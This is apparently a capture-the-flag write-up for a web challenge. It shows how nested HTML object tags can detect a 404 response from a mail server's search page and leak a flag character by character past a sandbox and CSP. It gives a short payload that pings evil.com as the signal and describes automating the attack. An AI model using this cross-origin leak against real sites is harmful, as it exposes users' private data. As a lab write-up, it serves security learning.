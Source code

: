 However, this doesn't do anything useful, since we can't exfiltrate anything from that iframe. But, combined with the search function, there is a vector to leak the flag.

For example, consider if we opened an iframe at `http://mail.supersus.corp/emails/1?search=ictf{`. We know that one of the emails has the flag, so that iframe should return status 200, with that email inside. 

However, if we instead searched for `jctf{`, no emails should have that string, so the iframe should return status 404 (but it will still have the inner HTML rendered).

This means that if we can detect the status code from the requested `mail` domain, we can leak the flag character by character.

### Objection!
But how do we go about detecting this status code? 
- We can't use `onerror`, since the `sandbox` directive and the rest of the CSP stop us from running Javascript. 
- We can't really leak the status code from the iframe, since HTML is loaded either way, and the only difference is the status code.

Going back through the CSP, the object-src directive seems interesting. Why would they allow `http` and `https` objects?

Well, some searching shows us that `object` tags actually use their children as fallback content if the object fails to load. In this case, failing to load means an error status code, exactly what we want!

According to [w3.org](https://www.w3.org/TR/html401/struct/objects.html):
- The user agent must first try to render the object. It should not render the element's contents, but it must examine them in case the element contains any direct children that are PARAM elements (see object initialization) or MAP elements (see client-side image maps).
- If the user agent is not able to render the object for whatever reason (configured not to, lack of resources, wrong architecture, etc.), it must try to render its contents.

So, something like this should work as a very simple 404 detector!
```html
<object data="http://mail.supersus.corp/emails/1?search=ictf{X">
    <object data="https://evil.com">
</object>
```

If we get a ping at `evil.com`, then we know that the guess we tried to search for was wrong, and we can move on to the next character. If we don't get a ping, then we know that some email must contain that string, so it must be the correct character.

Now all we need to do is automate this!

### Automation
I chose to do this attack using a hybrid webserver that would also handle the admin bot. 

Basically, you just visit `/attack` with `?known=FLAG_SO_FAR`. Then, after a few moments, visit `/attack-status`, and keep refreshing until you only get a few valid characters that didn't ping back.

Those characters should be the correct characters of the flag, so you can just append them and try again. If there are no valid characters, just delete the last one and try from there.
